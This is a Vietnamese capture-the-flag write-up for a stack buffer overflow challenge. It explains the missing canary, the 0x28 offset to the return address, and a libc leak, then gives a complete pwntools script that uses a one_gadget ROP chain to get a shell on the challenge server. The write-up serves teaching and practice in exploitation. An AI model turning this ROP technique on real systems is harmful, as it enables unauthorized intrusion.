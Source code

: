 # BOF

Kiểm tra các chế độ bảo vệ cơ bản của chương trình :

![image](https://user-images.githubusercontent.com/93699926/236652416-f2fc62f5-d06a-4ba4-a71c-726c908668c9.png)

Chế độ bảo vệ Canary khôg được bật, sẽ dễ dàng hơn trong việc thực hiện overflow và điều khiển luồng thực thi của chương trình

Kiểm tra luồng thực thi của chương trình trong IDA ta có như sau :

![image](https://user-images.githubusercontent.com/93699926/236652465-7beb36b4-826b-4971-ac7d-f55291919582.png)

Chương trình cho ta địa chỉ hàm SYSTEM như một món quà ,và sẽ cho ta nhập vào địa chỉ s[256] tới tận 64 byte,
rõ ràng đây là lỗi BOF . kiểm tra thông qua IDA ta có thể dễ dàng tính được offset từ s[256] tới saved rip của main là 0x28.
Vì bài bài này pie tắt và ta sẽ không thể loop lại chươg trình vì không có địa chỉ exe nên nếu ta khai thác theo hướng gọi system("/bin/sh") thì sẽ có lỗi
 khi mà địa chỉ RBP của ta không phải là địa chỉ hợp lệ . Vậy ta sẽ sử dụng one_gadget :

![image](https://user-images.githubusercontent.com/93699926/236652588-d5bce5f3-380a-4b26-b46c-425848e60942.png)

sử dụng onegadget đầu tiên, ta sẽ thêm một gadget lâys từ libc là pop rcx nữa để đảm bảo điều kiện thực thi nó 
. câu lệnh `ropper --f libc.so.6 > rop.txt ; cat rop.txt|grep pop`

vì khi chương trìn sẽ đọc vô địa chỉ s[256] 0x40 bytes. vậy 0x40-0x28=0x18(đủ chỗ cho 3 gadget lận).
==> nên payload của ta sẽ là 

```python
payload=b"A"*0x28
payload+=flat(
  pop_rcx,0,
  onegadget,
  )
```

fullscript in p.py:

```python3
from pwn import *
context.binary=exe=ELF("./unaligned",checksec=False)
libc=ELF("./libc.so.6",checksec=False)
#p=process(exe.path)
p=remote("unaligned.bsides.shellmates.club",443,ssl=True)
def GDB():
        gdb.attach(p,gdbscript=
                '''
                ni
                '''
                )
        input()



#GDB()
offest=0x28
p.recvuntil(b"Gift: ")
leak=int(p.recvline()[:-1],16)
log.info('[+]leak:'+hex(leak))
libc.address=leak-0x4f420
log.info('[+]libc base:'+hex(libc.address))
pop_rcx=libc.address+0x000000000010c423
pop_rdi=libc.address+0x000000000002164f
syscall=libc.address+0x00000000000d2625
ret=libc.address+0x00000000000008aa
pop_rsp=libc.address+0x000000000000396c
payload=b"C"*(offest)
payload+=flat(
        pop_rcx,0,
        libc.address+0x4f2a5,
        )

p.sendlineafter(b"Name: ",payload)
p.interactive()
```

chạy script:

![image](https://user-images.githubusercontent.com/93699926/236652769-28e11351-f371-439d-b282-a3f2615fa64c.png)


